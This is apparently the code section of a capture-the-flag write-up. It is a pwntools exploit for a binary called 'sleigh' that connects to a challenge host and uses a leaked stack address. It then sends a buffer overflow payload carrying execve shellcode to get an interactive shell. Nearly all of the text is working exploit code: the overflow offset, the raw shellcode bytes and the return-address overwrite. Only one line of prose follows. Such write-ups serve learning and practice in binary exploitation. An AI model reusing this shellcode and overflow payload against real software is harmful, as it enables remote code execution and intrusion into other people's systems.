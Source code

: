 ```python
from pwn import *

host = "178.62.123.156"
port = 31694

offset = 72
pop_rdi = 0x0000000000000c63
ret = 0x000000000000076e
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

elf = ELF("./sleigh")
# s = elf.process()
s = remote(host, port)

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")

print(s.recvuntil(b"There is something written underneath the sleigh: [").decode())

# strip to remove the unneeded part "]\n" and convert it into integer
leakVariable = int(s.recvline(b"]").strip(b"]\n"), 16)

log.info(f"leak address of variable: {hex(leakVariable)}")

# shellcode were put in the first or in the beginning of the payload, because we will fill the buffer
# where shellcode will be stored in variable buf (first variable in function repair)
# after filling the buffer, we will call the variable buf to execute the shellcode
payload = shellcode
payload += b"A"*(offset-len(shellcode))
payload += p64(leakVariable)

print(payload)
s.sendline(payload)

s.interactive()

s.close()
```

Now all we need to do is just run the program!
